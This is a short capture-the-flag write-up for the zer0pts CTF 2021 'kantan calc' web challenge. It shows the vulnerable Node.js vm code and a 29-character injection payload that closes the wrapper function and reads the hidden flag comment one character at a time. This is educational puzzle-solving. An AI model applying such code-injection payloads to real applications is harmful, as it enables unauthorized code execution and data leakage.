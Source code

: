 # zer0pts CTF 2021, kantan calc, web

## Description
"Kantan" means simple or easy in Japanese.

## Solution
```js
const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
```
we are controlling code variable (it cannot be longer than 29 characters). We want to somehow display comment with a flag. The idea is - close function and start new one, cast function to string and return it. Our payload was: `},this.a=()=>{return(a+0)[30]` (30 means string index). After that function looks like this:

```js
'use strict'; (function () { return },this.a=()=>{return(a+0)[30]; /* ${FLAG} */ })()
```
now it is enough to send sequence of indexes and extract flag characters from responses.
